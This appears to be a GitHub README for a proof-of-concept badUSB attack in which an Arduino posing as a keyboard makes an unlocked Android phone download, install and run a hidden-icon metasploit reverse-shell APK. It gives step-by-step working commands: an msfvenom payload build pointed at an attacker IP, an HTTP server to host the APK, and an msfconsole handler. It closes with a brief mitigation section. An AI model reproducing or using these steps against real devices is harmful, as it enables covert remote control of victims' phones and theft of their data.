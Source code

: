 # badUSB targeting Android (aka rubber duck) 

This is a proof of concept of a badUSB attack targeting android, a Arduino is plugged into the phone's USB port (via OTG cable), then the Arduino is programmed to act as a keyboard, then it opens the Browser , Download, installs and runs a apk (a metasploit reverse shell).

While you had to plug the Arduino into the phone, again this is a proof of concept, the attack can be embed into a charger or cable.  

Watch the [screenRecord](screenRecord.mp4) or the [video](video.mp4) to see the attack in action!


## Instructions:

To run this attack you have to:

1. Generate and serve the apk.
2. Keep the metasploit shell ready.
3. Program the Arduino
4. Plug the Arduino into the phone.

### Generating the apk

(You have to have metasploit installed) run:

> msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.201 LPORT=4444 AndroidHideAppIcon=true R > /path/to/filename.apk

set **LHOST** and **LPORT** accordingly 

then serve the apk:

```
cd path/to/apk
python3 -m http.server 8080
```

### Keeping the metasploit shell ready

run the following:

```
msfconsole
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.201
set LPORT 4444
use exploit/multi/handler
run
```

set **LHOST** and **LPORT** accordingly 

### Program the Arduino

In this step I used a DIY Brazilian attiny85 board called [franzininho](https://franzininho.com.br/), It's the same as using a Digispark

After you have prepared the Arduino IDE for the Digispark board, change the IP address and apkfilename in the [Arduino code](androidBadUsbvf.ino) then upload it to the board.

Finally plug the Arduino into the Phone via the OTG cable.

## Tested on:

The attack was successful on the following phones:

* Moto G8 Plus (Doha): build fingerprint: motorola/doha/doha:9/PPI29.65-24/773d3:user/release-keys ; Security patch level: September 1, 2019; Chrome version 78.0.3904.96


## Mitigations:

In order to mitigate this attack you could just leave the phone always locked when charging. 

But I believe the Android should prevent this type of attack, Android could don't authorize USB devices and display a warning asking if the user really plugged a keyboard and if authorize it, similar to [usbguard](https://usbguard.github.io/);
